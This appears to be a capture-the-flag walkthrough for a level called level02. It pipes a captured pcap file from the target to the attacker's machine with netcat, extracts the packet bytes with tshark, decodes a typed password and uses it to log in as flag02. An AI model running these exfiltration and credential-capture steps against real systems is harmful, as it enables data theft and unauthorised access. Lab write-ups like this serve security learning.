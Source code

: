 kali
`nc -lvnp 9090 > level02.pcap`

target
`cat level02.pcap | nc 10.0.2.15 9090`


Dump hexadecimal data includes in frames
```bash
tshark -r level02.pcap -T fields -e data.data
```

Paste output in hex to text converter -> https://goteleport.com/resources/tools/hex-to-text-converter/

Got 
```
Password: ft_wandr<suppr><suppr><suppr>NDRel<suppr>L0L
```

Result -> `ft_waNDReL0L`

```bash
su flag02 / ft_waNDReL0L
```


